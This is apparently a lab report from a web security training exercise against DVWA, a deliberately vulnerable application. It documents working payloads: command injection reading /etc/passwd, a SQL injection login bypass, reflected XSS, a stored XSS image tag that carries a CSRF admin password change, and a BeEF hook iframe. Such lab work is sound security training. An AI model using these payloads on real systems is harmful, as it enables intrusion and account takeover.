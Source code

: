 # Web Application Security Testing Lab Report

_made in Obsidian.md_

If you have a Markdown reader, I strongly suggest you use it to view this for vastly increased readibility. Enjoy! :)

## Command Injection Testing

### 1. Basic Command Injection

I tested for command injection vulnerability using command chaining:

```
ls | cat /etc/passwd
```

This payload successfully executed and revealed the contents of the `/etc/passwd` file, confirming a command injection vulnerability. The output included all system users, including:

- `root:x:0:0:root:/root:/bin/bash`
- `msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash`
- `user:x:1001:1001:just a user,111,,:/home/user:/bin/bash`
- `service:x:1002:1002:,,,:/home/service:/bin/bash`
- Various system accounts

### 2. Difficulty Level Testing

I tested the same payload on medium difficulty setting:

```
ls | cat /etc/passwd
```

The command injection vulnerability was still present at medium difficulty, returning identical results to the previous test. This indicates insufficient input validation across difficulty levels.

## SQL Injection Testing

### 3. Authentication Bypass

I used the following SQL injection payload to bypass authentication controls:

```
' OR 1=1-- 
```

The payload successfully executed and dumped the entire user table contents:

| ID         | First Name | Surname |
| ---------- | ---------- | ------- |
| admin      | admin      | admin   |
| ' OR 1=1-- | Gordon     | Brown   |
| ' OR 1=1-- | Hack       | Me      |
| ' OR 1=1-- | Pablo      | Picasso |
| ' OR 1=1-- | Bob        | Smith   |

**Note**: I ensured there was a space after the comment characters (`--`) to make the payload work correctly.

## Cross-Site Scripting (XSS) Testing

### 4. Reflected XSS

I tested for reflected XSS vulnerability with a basic JavaScript alert:

```
<script>alert("Vulnerable!")</script>
```

This payload successfully executed when submitted, triggering a popup window with the text "Vulnerable!" - confirming the application is vulnerable to reflected XSS attacks.

## Combined Attack Testing

### 5. Stored XSS + CSRF Combined Attack

I performed a multi-stage attack combining stored XSS and CSRF:

1. First, I examined the page source code to identify form field names:
    
    - `password_new`
    - `password_conf`
    - `Change` (submit button)
2. Constructed a CSRF payload to change the admin password:
    
    ```
    http://10.10.0.20/dvwa/vulnerabilities/csrf/?password_new=abc123&password_conf=abc123&Change=Change#
    ```
    
3. Combined with an HTML image tag to create a stored XSS payload:
    
    ```
    <img src="http://10.10.0.20/dvwa/vulnerabilities/csrf/?password_new=abc123&password_conf=abc123&Change=Change#">
    ```
    
4. To bypass character limitations, I used browser developer tools to change the message field's maximum length from 50 to 200 characters.
    
5. Verified the attack success by logging out and successfully logging back in with the new password "abc123".
    

### 6. Browser Exploitation Framework (BeEF) Hook

I tested for the ability to inject a BeEF hook via XSS:

```
<iframe src="http://127.0.0.1:3000/demos/basic.html"></iframe>
```

This payload successfully injected a BeEF hook, allowing for client-side exploitation through the BeEF framework.